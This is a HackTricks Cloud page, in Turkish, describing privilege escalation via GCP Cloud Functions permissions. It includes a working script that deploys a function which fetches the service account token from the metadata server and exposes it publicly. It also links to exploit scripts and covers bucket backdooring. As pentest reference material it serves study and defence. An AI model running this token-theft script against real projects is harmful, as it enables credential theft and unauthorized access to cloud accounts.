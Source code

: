# GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions hakkında daha fazla bilgi:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Bu yetkilere sahip bir saldırgan, **keyfi (kötü niyetli) kodla yeni bir Cloud Function oluşturabilir ve ona bir Service Account atayabilir**. Ardından, yetkileri artırmak için metadata'dan Service Account token'ını sızdırabilir.\
Fonksiyonu tetiklemek için bazı yetkiler gerekebilir.

Bu yöntem için istismar betikleri [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) ve [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) bulunabilir ve önceden oluşturulmuş .zip dosyası [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) bulunabilir.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Bu yetkilere sahip bir saldırgan, **bir Fonksiyonun kodunu değiştirebilir ve hatta ekli olan hizmet hesabını değiştirebilir** ve token'ı dışarı sızdırma amacı güdebilir.

{% hint style="danger" %}
Cloud functions dağıtmak için, varsayılan compute service account veya imajı oluşturmak için kullanılan service account üzerinde actAs izinlerine de ihtiyacınız olacak.
{% endhint %}

Ekstra yetkiler, 1. versiyon cloudfunctions için `.call` izni veya fonksiyonu tetiklemek için `role/run.invoker` rolü gibi gerekebilir.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Eğer `Permission 'run.services.setIamPolicy' denied on resource...` hatasını alıyorsanız, bu `--allow-unauthenticated` parametresini kullandığınız ve yeterli izinlerinizin olmadığı anlamına gelir.
{% endhint %}

Bu yöntem için istismar betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) bulunabilir.

### `cloudfunctions.functions.sourceCodeSet`

Bu izinle, bir **dosyayı bir fonksiyon bucket'ına yüklemek için imzalı bir URL alabilirsiniz (ancak fonksiyonun kodu değişmeyecek, yine de güncellemeniz gerekecek)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Saldırganlar açısından bu iznin ne kadar faydalı olacağından emin değilim, ama bilmekte fayda var.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Önceki **`.update`** veya **`.create`** ayrıcalıklarından herhangi birini kendinize vererek yükseltme yapabilirsiniz.

### `cloudfunctions.functions.update`

Sadece **`cloudfunctions`** izinlerine sahip olmak, **`iam.serviceAccounts.actAs`** olmadan fonksiyonu güncelleyemezsiniz, BU YÜKSELTME İÇİN GEÇERLİ DEĞİLDİR.

### Bucket üzerinde Okuma & Yazma Erişimi

Bucket üzerinde okuma ve yazma erişiminiz varsa, kodda değişiklikleri izleyebilir ve bucket'ta bir **güncelleme olduğunda yeni kodunuzu kendi kodunuzla güncelleyebilirsiniz**; böylece Cloud Function'ın yeni versiyonu gönderilen arka kapılı kodla çalıştırılacaktır.

Saldırı hakkında daha fazla bilgi edinebilirsiniz:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Ancak, bunu üçüncü taraf Cloud Functions'ı önceden tehlikeye atmak için kullanamazsınız çünkü bucket'ı kendi hesabınızda oluşturup, dış projenin üzerine yazabilmesi için halka açık izinler verirseniz, aşağıdaki hatayı alırsınız:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Ancak, bu DoS saldırıları için kullanılabilir.
{% endhint %}

### Artifact Registry üzerinde Okuma & Yazma Erişimi

Bir Cloud Function oluşturulduğunda, projenin Artifact Registry'sine yeni bir docker imajı yüklenir. İmajı yeni bir imajla değiştirmeyi denedim, hatta mevcut imajı (ve `cache` imajını) silmeyi denedim ama hiçbir şey değişmedi, cloud function çalışmaya devam etti. Bu nedenle, belki de **bucket ile bir Yarış Koşulu saldırısını kötüye kullanmak mümkün olabilir** ama **sadece saklanan imajı değiştirmek Cloud Function'ı tehlikeye atmak için yeterli değildir**.

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
